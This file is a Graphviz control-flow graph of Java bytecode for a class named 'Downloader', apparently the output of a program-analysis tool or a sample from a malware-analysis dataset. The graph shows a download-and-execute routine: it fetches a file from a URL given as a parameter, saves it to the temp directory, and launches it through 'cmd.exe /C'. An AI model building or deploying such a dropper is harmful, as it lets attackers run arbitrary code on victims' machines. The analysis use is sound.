 digraph "" {
    "r0 := @this: Downloader"
    "load.r r0"
    "r0 := @this: Downloader"->"load.r r0";
    "push \"filename\""
    "load.r r0"->"push \"filename\"";
    "virtualinvoke <Downloader: java.lang.String getParameter(java.lang.String)>"
    "push \"filename\""->"virtualinvoke <Downloader: java.lang.String getParameter(java.lang.String)>";
    "store.r r3"
    "virtualinvoke <Downloader: java.lang.String getParameter(java.lang.String)>"->"store.r r3";
    "push \"java.io.tmpdir\""
    "store.r r3"->"push \"java.io.tmpdir\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r4"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r4";
    "new java.net.URL"
    "store.r r4"->"new java.net.URL";
    "store.r $r8"
    "new java.net.URL"->"store.r $r8";
    "load.r $r8"
    "store.r $r8"->"load.r $r8";
    "load.r $r8"->"load.r r0";
    "push \"url_path\""
    "load.r r0"->"push \"url_path\"";
    "push \"url_path\""->"virtualinvoke <Downloader: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Downloader: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "goto load.r $r8"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"goto load.r $r8";
    "goto load.r $r8"->"load.r $r8";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "load.r $r8"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "store.r r0"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"store.r r0";
    "goto load.r r0"
    "store.r r0"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "load.r r0"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r30"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r30";
    "goto new java.io.FileOutputStream"
    "store.r r30"->"goto new java.io.FileOutputStream";
    "new java.io.FileOutputStream"
    "goto new java.io.FileOutputStream"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"store.r $r8";
    "store.r $r8"->"load.r $r8";
    "new java.lang.StringBuilder"
    "load.r $r8"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r4"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r4";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r4"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r3"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r3";
    "load.r r3"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "goto push 1024"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"goto push 1024";
    "push 1024"
    "goto push 1024"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "newarray"->"store.r r0";
    "load.r r30"
    "store.r r0"->"load.r r30";
    "load.r r30"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "push 0"->"load.r r0";
    "arraylength"
    "load.r r0"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i1"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i1";
    "load.i $i1"
    "store.i $i1"->"load.i $i1";
    "push -1"
    "load.i $i1"->"push -1";
    "ifcmpeq.i goto load.r r30"
    "push -1"->"ifcmpeq.i goto load.r r30";
    "ifcmpeq.i goto load.r r30"->"load.r $r8";
    "load.r $r8"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"load.i $i1";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i1"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r30"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r30";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"load.r r30";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r30"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"goto load.r $r8";
    "goto load.r $r8"->"load.r $r8";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r8"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "goto staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"goto staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "goto staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r $r8";
    "push 3"
    "store.r $r8"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push \"cmd.exe\""
    "push 0"->"push \"cmd.exe\"";
    "arraywrite.r"
    "push \"cmd.exe\""->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "push \"/C\""
    "push 1"->"push \"/C\"";
    "push \"/C\""->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "push 2"
    "load.r r0"->"push 2";
    "push 2"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r4";
    "load.r r4"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r3";
    "load.r r3"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r8";
    "load.r $r8"->"load.r r0";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String[])>"
    "load.r r0"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String[])>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String[])>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String[])>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "ifcmpeq.i goto load.r r30"->"goto load.r r30";
    "virtualinvoke <java.io.FileNotFoundException: void printStackTrace()>"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"virtualinvoke <java.io.FileNotFoundException: void printStackTrace()>";
    "virtualinvoke <java.io.FileNotFoundException: void printStackTrace()>"->"return";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"return";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"return";
    "virtualinvoke <java.net.MalformedURLException: void printStackTrace()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.MalformedURLException: void printStackTrace()>";
    "virtualinvoke <java.net.MalformedURLException: void printStackTrace()>"->"return";
}
